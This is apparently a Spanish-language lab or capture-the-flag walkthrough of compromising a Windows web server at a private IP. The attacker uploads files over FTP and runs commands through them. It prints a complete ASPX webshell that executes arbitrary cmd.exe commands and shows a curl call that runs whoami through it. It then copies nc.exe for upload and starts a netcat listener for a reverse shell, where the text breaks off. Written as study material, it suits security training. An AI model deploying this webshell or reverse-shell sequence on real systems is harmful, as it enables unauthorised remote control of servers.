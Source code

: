 Logramos subir el archivo pero no ha funcionado
```bash
ftp> put webshell.php
```

Usamos este **webshell**  **aspx**
```bash
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%
    string cmd = Request["cmd"];
    if (!string.IsNullOrEmpty(cmd))
    {
        Process proc = new Process();
        proc.StartInfo.FileName = "cmd.exe";
        proc.StartInfo.Arguments = "/c " + cmd;
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        Response.Write("<pre>" + proc.StandardOutput.ReadToEnd() + "</pre>");
        proc.WaitForExit();
    }
%>
```

Lo subimos al servidor **ftp**
```bash
ftp> put webshell.aspx
local: webshell.aspx remote: webshell.aspx
```
### Ejecucion del Ataque
Ahora ejecutamos el comando desde la terminar:
```bash
# Comandos para explotación
curl -s -X GET http://192.168.100.43/webshell.aspx?cmd=whoami

<pre>nt authority\servicio de red
</pre>
```

Una ves ejecutado comandos tenemos que ver como ganar acceso al objetivo asi que usaremos, el siguiente archivo
El archivo **`/usr/share/windows-resources/binaries/nc.exe`** es una copia del famoso programa **Netcat (nc.exe)** compilado para Windows, que suele estar incluido en distribuciones de pentesting como **Kali Linux** o **Parrot OS**. Su propósito principal es facilitar la conexión entre sistemas para transferencia de datos, escaneo de puertos, shells inversas (_reverse shells_) y otras tareas de red.
Nos copiamos este archivo a nuestro directorio de trabajo para subrlo atraves de **ftp**
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```
### Intrusion
Modo escucha
```bash
nc -nlvp 443
```
